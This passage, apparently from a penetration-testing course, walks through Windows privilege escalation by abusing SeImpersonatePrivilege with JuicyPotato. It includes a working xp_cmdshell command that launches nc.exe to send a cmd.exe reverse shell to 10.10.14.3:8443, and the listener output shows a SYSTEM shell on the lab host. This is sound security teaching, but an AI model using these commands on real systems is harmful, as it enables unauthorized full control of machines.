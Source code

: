 The command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed. This privilege can be used to impersonate a privileged account such as `NT AUTHORITY\SYSTEM`. [JuicyPotato](https://github.com/ohpe/juicy-potato) can be used to exploit the `SeImpersonate` or `SeAssignPrimaryToken` privileges via DCOM/NTLM reflection abuse.

#### Escalating Privileges Using JuicyPotato

To escalate privileges using these rights, let's first download the `JuicyPotato.exe` binary and upload this and `nc.exe` to the target server. Next, stand up a Netcat listener on port 8443, and execute the command below where `-l` is the COM server listening port, `-p` is the program to launch (cmd.exe), `-a` is the argument passed to cmd.exe, and `-t` is the `createprocess` call. Below, we are telling the tool to try both the [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) and [CreateProcessAsUser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) functions, which need `SeImpersonate` or `SeAssignPrimaryToken` privileges respectively.

```shell
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

output

--------------------------------------------------------------------------------

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375

[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
[+] calling 0x000000000088ce08

```

#### Catching SYSTEM Shell

This completes successfully, and a shell as `NT AUTHORITY\SYSTEM` is received.

```shell
sudo nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system

C:\Windows\system32>hostname

hostname
WINLPE-SRV01

```
